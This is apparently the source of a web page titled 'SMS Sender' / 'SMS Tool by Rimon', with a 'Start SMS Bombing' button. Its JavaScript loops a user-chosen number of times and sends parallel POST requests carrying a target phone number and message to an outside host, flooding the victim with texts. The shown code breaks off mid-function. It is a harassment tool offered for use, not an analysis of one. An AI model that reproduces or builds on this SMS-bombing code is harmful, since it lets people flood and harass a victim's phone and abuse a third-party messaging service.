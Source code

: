         <h1>SMS Sender</h1>
        <input type="text" id="phone" placeholder="Enter Phone Number">
        <textarea id="message" placeholder="Write Your Message Here"></textarea>
        <input type="number" id="amount" placeholder="Number of SMS (How many messages)">
        <button onclick="sendSMS()">Send SMS</button>

        <div class="response" id="responseBox">Response will appear here...</div>

        <!-- New SMS Tool Section -->
        <h2>SMS Tool by Rimon</h2>
        <div class="form-group">
            <label>Number:</label>
            <input type="text" id="normalNumber" placeholder="Enter phone number">
        </div>
        <div class="form-group">
            <label>Message:</label>
            <textarea id="normalMessage" rows="3" placeholder="Type your message"></textarea>
        </div>
        <button class="normal-btn" onclick="sendNormal()">Send Normal SMS</button>

        <div class="form-group">
            <label>Amount:</label>
            <input type="number" id="bombAmount" placeholder="How many SMS?">
        </div>
        <button class="bomb-btn" onclick="sendBomb()">Start SMS Bombing</button>
        <div class="status" id="statusMessage"></div>
    </div>

    <div class="footer">
        Developed by <b>Rimon Hossain</b><br>
        <a href="https://t.me/rimonhossainoffical" target="_blank">Join My Telegram Channel</a>
    </div>

    <script>
        async function sendSMS() {
            const phone = document.getElementById('phone').value.trim();
            const message = document.getElementById('message').value.trim();
            const amount = parseInt(document.getElementById('amount').value);

            if (!phone || !message || !amount || amount < 1) {
                alert("Please fill out all fields correctly!");
                return;
            }

            document.getElementById('responseBox').innerText = "Sending SMS...";

            const promises = [];
            for (let i = 0; i < amount; i++) {
                const formData = new URLSearchParams();
                formData.append('phone', phone);
                formData.append('message', message);

                promises.push(
                    fetch('http://tasks2earn.shop', {
                        method: 'POST',
                        headers: {
                            'Content-Type': 'application/x-www-form-urlencoded'
                        },
                        body: formData.toString()
                    })
                    .then(response => response.text())
                    .catch(error => {
                        return 'Error: ' + error;
                    })
                );
            }
